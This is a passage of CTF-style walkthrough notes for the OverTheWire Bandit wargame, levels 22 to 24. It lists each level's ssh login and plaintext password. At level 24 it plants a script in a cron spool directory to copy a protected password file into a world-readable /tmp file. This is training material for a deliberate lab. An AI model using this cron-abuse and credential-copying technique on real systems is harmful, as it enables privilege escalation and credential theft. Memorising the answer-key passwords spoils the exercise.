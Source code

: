 ssh -C -p 2220 bandit21@bandit.labs.overthewire.org

passwd:EeoULMCra2q0dSkYj561DX7s1CpBuOBt

## Level 22

```
cd /etc/cron.d/
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
```

ssh -C -p 2220 bandit22@bandit.labs.overthewire.org

passwd:tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

## Level 23

```
cd /etc/cron.d/
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh

echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349

cat /tmp/8ca319486bfbbc3663ea0fbe81326349
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

ssh -C -p 2220 bandit23@bandit.labs.overthewire.org

passwd:0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Level 24

```
cd /etc/cron.d/
cat cronjob_bandit24

cd /var/spool/bandit24/foo
echo -e '#!/bin/bash\nmkdir -p /tmp/wwww/; cp /etc/bandit_pass/bandit24 /tmp/wwww/pass.txt; chmod 777 /tmp/wwww/pass.txt' > ok.sh && chmod +x ok.sh

cat /tmp/wwww/pass.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

ssh -C -p 2220 bandit24@bandit.labs.overthewire.org

passwd:gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Level 25
